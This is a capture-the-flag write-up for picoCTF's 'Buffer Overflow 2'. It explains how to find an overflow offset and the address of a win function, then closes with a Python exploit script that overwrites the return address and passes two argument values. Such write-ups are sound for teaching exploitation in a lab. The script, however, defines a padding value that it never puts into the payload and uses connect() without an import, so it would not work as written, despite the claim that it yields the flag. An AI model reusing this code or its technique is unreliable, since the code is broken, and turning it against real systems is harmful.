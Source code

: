 # Buffer Overflow 2
For this challenge we are given to files: an executable, vuln, and its source in C.</br>
We are also told to control its return address and arguments.</br></br>
Opening the source file, we see the value of the arguments which must be passed to get the flag, 0xCAFEF00D and 0xF00DF00D.<br>
![Vuln Source Code](./vuln.png)</br>

Running the executable, we are asked for an input and it is returned to us. Providing too much input causes a segmentation fault.</br>
![Program output](./overflow.png)

We can use Metasploit and GDB to find out where the buffer overflow occurs.</br>
![Metasploit Create](./metasploit_create.png)</br>
![Metasploit Offset](./offset.png)

We now know it takes 112 characters to cause the buffer overflow.</br>

The next step is to find the memory address of the function we want to jump to, win. Using readelf, we are able to find win at 0x08049296.</br>
![Readelf Output](./win.png)

Here is a python script that connects to the specified server and port and sends the payload to it.</br>
```
#!/bin/env python3

p = connect('saturn.picoctf.net', 62954)
offset = 112
junk = b'A' * offset              #All strings must be converted to byte format
buf = b'\x08\x04\x92\x96'[::-1]   #Addresses on x86 ( Little Endian) are reversed by byte
pad = b'OEBP'                     #Overwrite return address on EBP (4 bytes)
argument1 = b'\xCA\xFE\xF0\x0D'[::-1]
argument2 = b'\xF0\x0D\xF0\x0D'[::-1]
payload = [junk + buf + argument1 + argument2]
payload = b''.join(payload)
p.sendline(payload)
p.interactive()
```

Running it gives us the flag!</br>
![Flag](./flag.png)
